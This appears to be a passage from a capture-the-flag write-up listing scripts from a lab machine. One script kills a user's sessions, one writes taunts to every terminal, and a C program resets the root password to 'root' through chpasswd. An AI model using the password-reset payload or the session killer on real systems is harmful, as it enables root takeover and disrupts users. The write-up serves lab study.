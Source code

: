 kill_sess.sh

```bash
#!/bin/bash

killall -u john
```

talk.sh

```bash
#!/bin/bash
n=$((1 + $RANDOM % 8))

for i in {0..25}
do
        if [ $n -eq 1 ]; then
                echo "You really think you can take down my machine Blue?" > /dev/pts/$i

        elif [ $n -eq 2 ]; then
                echo "You will never see your way to 0xdf" > /dev/pts/$i

        elif [ $n -eq 3 ]; then
                echo "I recommend you leave Blue or I will destroy your shell" > /dev/pts/$i

        elif [ $n -eq 4 ]; then
                echo "You will never win Blue" > /dev/pts/$i

        elif [ $n -eq 5 ]; then
                echo "Red Rules, Blue Drools!" > /dev/pts/$i

	elif [ $n -eq 6 ]; then
                echo "You really think ippsec was the way to go? Silly Blue" > /dev/pts/$i

	elif [ $n -eq 7 ]; then
                echo "Get out of my machine Blue!!" > /dev/pts/$i

        else
                echo "Say Bye Bye to your Shell Blue and that password" > /dev/pts/$i

        fi
done
```

```cpp
#include <stdio.h>
#include <stdlib.h>
int main()
{
    system("echo \"root:root\" | /usr/sbin/chpasswd");
    return 0;
}
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201162042592.png)
